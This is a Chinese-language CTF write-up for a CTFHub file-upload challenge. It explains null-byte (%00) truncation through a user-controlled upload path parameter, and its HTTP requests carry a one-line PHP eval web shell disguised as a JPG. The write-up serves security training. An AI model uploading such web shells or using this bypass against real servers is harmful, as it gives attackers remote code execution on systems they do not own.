 # CTFHUB_00截断

## 题目内容

![image-20210825044124277](pic/28.png)


## WriteUp

00截断已经是php5版本的事情了，但是ctf赛题中仍然可能出现，还是尝试上传一个htaccess，提示文件类型不匹配，判断应该是文件后缀白名单或者类型白名单

那我们上传一个shell.php抓包看看，不过在返回包里面发现了源码

```php
if (!empty($_POST['submit'])) {
    $name = basename($_FILES['file']['name']);
    $info = pathinfo($name);
    $ext = $info['extension'];
    $whitelist = array("jpg", "png", "gif");
    if (in_array($ext, $whitelist)) {
        $des = $_GET['road'] . "/" . rand(10, 99) . date("YmdHis") . "." . $ext;
        if (move_uploaded_file($_FILES['file']['tmp_name'], $des)) {
            echo "<script>alert('上传成功')</script>";
        } else {
            echo "<script>alert('上传失败')</script>";
        }
    } else {
        echo "文件类型不匹配";
    }
}
```

确定是文件名白名单

但是根据http包的参数可以看出存在一个路由

```
POST /?road=/var/www/html/upload/ HTTP/1.1
Host: challenge-bcb33f4b3dca8c7a.sandbox.ctfhub.com:10800
Content-Length: 320
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge-bcb33f4b3dca8c7a.sandbox.ctfhub.com:10800
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGc0qmvrJLZ5AdZku
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://challenge-bcb33f4b3dca8c7a.sandbox.ctfhub.com:10800/?road=/var/www/html/upload/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17b672c96fe74f-01ab585fa1d62c-3d740e5b-1fa400-17b672c96ff412
Connection: close

------WebKitFormBoundaryGc0qmvrJLZ5AdZku
Content-Disposition: form-data; name="file"; filename="shell.jpg"
Content-Type: application/x-php

<?php @eval($_POST['cmd']); ?>

------WebKitFormBoundaryGc0qmvrJLZ5AdZku
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundaryGc0qmvrJLZ5AdZku--

```

这个路由是否对上传有影响暂时不知道，但是上传成功没有给路径，但是可以看出是在/upload下，多次上传无果，看了一下wp

发现自己忽略了一个关键信息

```php
$des = $_GET['road'] . "/" . rand(10, 99) . date("YmdHis") . "." . $ext;
```

在这里有一个对文件名的定义，这个road是可控的，可以改为`/var/www/html/upload/shell.php%00`来截断

> 0x00是十六进制表示方法，是ascii码为0的字符，在有些函数处理时，会把这个字符当做结束符。这个可以用在对文件类型名的绕过上。

通常文件名也可以通过00截断绕过，但是这次不行,因为这次取后缀前面的内容为随机生成，就算截断成功也无法拿到文件名

成功上传的数据包如下

```
POST /?road=/var/www/html/upload/shell.php%00 HTTP/1.1
Host: challenge-bcb33f4b3dca8c7a.sandbox.ctfhub.com:10800
Content-Length: 327
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge-bcb33f4b3dca8c7a.sandbox.ctfhub.com:10800
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5BzosmVPJAABLp98
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://challenge-bcb33f4b3dca8c7a.sandbox.ctfhub.com:10800/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17b672c96fe74f-01ab585fa1d62c-3d740e5b-1fa400-17b672c96ff412
Connection: close

------WebKitFormBoundary5BzosmVPJAABLp98
Content-Disposition: form-data; name="file"; filename="shell.jpg"
Content-Type: application/x-php

<?php @eval($_POST['cmd']); ?>

------WebKitFormBoundary5BzosmVPJAABLp98
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundary5BzosmVPJAABLp98--
```

